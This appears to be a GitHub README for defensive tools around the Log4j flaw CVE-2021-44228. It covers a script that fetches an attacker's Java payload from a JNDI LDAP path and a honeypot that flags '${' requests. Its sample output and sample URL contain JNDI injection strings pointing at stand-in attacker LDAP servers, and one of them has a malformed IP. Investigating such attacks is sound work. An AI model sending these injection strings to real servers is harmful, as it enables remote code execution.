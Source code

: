 # Log4jTools
Tools for investigating Log4j CVE-2021-44228

## Bug explanation and Demo
https://www.youtube.com/watch?v=0-abhd-CLwQ

## FetchPayload.py (Get java payload from ldap path provided in JNDI lookup).
Requirements: curl (system), requests (python)

Example command:
```
python FetchPayload.py ldap://maliciouserver:1337/path

[+] getting object from ldap://maliciouserver:1337/path
[+] exploit payload: http://maliciouserver:80/Exploit.class
[+] seeing if attacker left behind un-compile payload http://maliciouserver:80/Exploit.java
[x] failed to find payload Exploit.java
[+] trying to fetch compiled payload http://maliciouserver:80/Exploit.class
[+] found payload and saved to file Exploit.class_
```

## SimpleHoneypot.py (honeypot to catch exploit attempts based on presence of '${' ).
Requirements: python3, asyncore

Example command:
```
python3 SimpleHoneypot.py

[2021-12-09 13:00:00,000] Possible CVE-2021-44228 Attempt: 127.0.0.1:1111 -> port 8080 - GET /?id=${jdni:ldap://127.0.0.1:1389/hax} HTTP/1.1

```

## Sample URL:

http://kgb.fyi:443/?id=${jdni:ldap://133.33.33.331389/HELLO-CLASS}
